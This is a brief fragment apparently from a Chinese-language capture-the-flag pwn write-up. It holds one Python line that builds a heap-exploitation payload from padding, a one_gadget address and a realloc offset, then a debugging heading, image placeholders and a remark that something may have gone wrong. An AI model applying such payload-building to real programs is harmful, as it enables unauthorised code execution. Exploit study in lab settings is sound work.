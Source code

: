 ```python
py+= 'a'*11 + p64(one_gadget) + p64(realloc+1) + '\n'
```

调试

![upload successful](/images/pasted-110.png)
可能哪里出错啦


![upload successful](/images/pasted-111.png)
